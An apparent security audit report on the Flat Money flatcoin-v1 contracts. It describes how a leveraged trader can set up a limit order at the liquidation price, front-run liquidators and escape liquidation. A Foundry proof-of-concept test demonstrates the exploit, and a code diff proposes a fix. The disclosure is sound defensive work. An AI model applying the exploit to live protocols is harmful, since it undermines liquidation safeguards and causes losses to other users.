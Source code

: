 Exotic Goldenrod Duck

high

# Leverage trader can front-run liquidation to close position by placing limit order in advance

## Summary
Leverage trader can front-run liquidation to close position by placing limit order in advance.

## Vulnerability Detail
When a leverage position is opened by a leverage trader, this position can be liquidated if the collateral price drops to liquidation price.

Liquidator calls [liquidate(...)](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LiquidationModule.sol#L85) function to liquidate, this function can be executed without any delay.

At the same time, a leverage position can also be [closed](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L255-L259) by the trader even if the collateral price is below the liquidation price. 

To close a position, leverage trader should first create a close order by [making a announcement](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L317), only if the minimum time delay is reached the order can be executed.

With such limitation, it's unlikely leverage trader can close a liquidatable position before it's liquidated by a liquidator. However, this is not always true, the trader can actually front-run liquidation to close position by placing limit order in advance.

A limit order can only be [executed](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L134) if the collateral price is below **priceUpperThreshold** or the price is above **priceUpperThreshold**:
```solidity
        if (price <= _limitOrder.priceLowerThreshold) {
            minFillPrice = 0; // can execute below lower limit price threshold
        } else if (price >= _limitOrder.priceUpperThreshold) {
            minFillPrice = _limitOrder.priceUpperThreshold;
        } else {
            revert FlatcoinErrors.LimitOrderPriceNotInRange(
                price,
                _limitOrder.priceLowerThreshold,
                _limitOrder.priceUpperThreshold
            );
        }
```
So a leverage trader can create a limit order right after opening a position, and set **priceLowerThreshold** to `liquidation price` and 
**priceUpperThreshold** to `type(uint256).max`, thus the position can only be closed when the collateral price is no larger than `liquidation price`. If collateral price drops to `liquidation price`, the trader can front-run any liquidator to execute the limit order to close the position, as a result, the trader "rescues" some funds whereas liquidator gets nothing but a reverted transaction. 

Please see the test codes:
```solidity
    function test_audit_frontrun_liquidation_and_close_position() public {
        uint256 oraclePrice = 1000e8;

        announceAndExecuteDeposit({
            traderAccount: alice, 
            keeperAccount: keeper, 
            depositAmount: 100e18, 
            oraclePrice: oraclePrice, 
            keeperFeeAmount: 0
        });

        // Bob opens a position
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: bob,
            keeperAccount: keeper,
            margin: 50e18,
            additionalSize: 100e18,
            oraclePrice: oraclePrice,
            keeperFeeAmount: 0
        });

        // Bob place a limit order, priceLowerThreshold is liqPrice and priceUpperThreshold is type(uint256).max
        vm.startPrank(bob);
        uint256 liqPrice = liquidationModProxy.liquidationPrice(tokenId);
        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: liqPrice,
            priceUpperThreshold: type(uint256).max
        });
        vm.stopPrank();

        skip(uint256(vaultProxy.minExecutabilityAge()));

        // Keeper cannot execute the limit order because price is not in range
        vm.startPrank(keeper);
        bytes[] memory priceUpdateData = getPriceUpdateData(oraclePrice);
        vm.expectRevert(abi.encodeWithSelector(FlatcoinErrors.LimitOrderPriceNotInRange.selector, 1000e18, liqPrice, type(uint256).max));
        limitOrderProxy.executeLimitOrder{value: 1}(tokenId, priceUpdateData);
        vm.stopPrank();

        uint256 bobCollateralBalanceAfterOpenningPosition = WETH.balanceOf(bob);

        // Price drops
        skip(2 days);
        uint256 liquidationPrice = (liqPrice - 1e18) / 1e10;
        setWethPrice(liquidationPrice);

        // Bob's position can be liquidated
        assertTrue(liquidationModProxy.canLiquidate(tokenId));

        // Bob frontruns and closes his position
        vm.startPrank(bob);
        priceUpdateData = getPriceUpdateData(oraclePrice);
        limitOrderProxy.executeLimitOrder{value: 1}(tokenId, priceUpdateData);
        vm.stopPrank();

        uint256 bobCollateralBalanceAfterClosingPosition = WETH.balanceOf(bob);

        // Bob get some collateral back
        assertTrue(bobCollateralBalanceAfterClosingPosition - bobCollateralBalanceAfterOpenningPosition > 0);

        skip(1);

        // Liquidator cannot liquidate because postion has been closed
        vm.startPrank(liquidator);
        priceUpdateData = getPriceUpdateData(oraclePrice);
        vm.expectRevert(abi.encodeWithSelector(FlatcoinErrors.CannotLiquidate.selector, tokenId));
        liquidationModProxy.liquidate{value: 1}(tokenId, priceUpdateData);
        vm.stopPrank();
    }
```

## Impact
Leverage trader cannot be liquidated.

## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L255-L259

## Tool used
Manual Review

## Recommendation
Should not allow leverage trader to close a position if the collateral price drops to liquidation price.
```diff
    function executeClose(
        address _account,
        address _keeper,
        FlatcoinStructs.Order calldata _order
    ) external whenNotPaused onlyAuthorizedModule returns (int256 settledMargin) {
        ...

+       if (
+           ILiquidationModule(vault.moduleAddress(FlatcoinModuleKeys._LIQUIDATION_MODULE_KEY)).canLiquidate(
+               announcedClose.tokenId
+           )
+       ) revert FlatcoinErrors.PositionCreatesBadDebt();

        ...
    }
``` 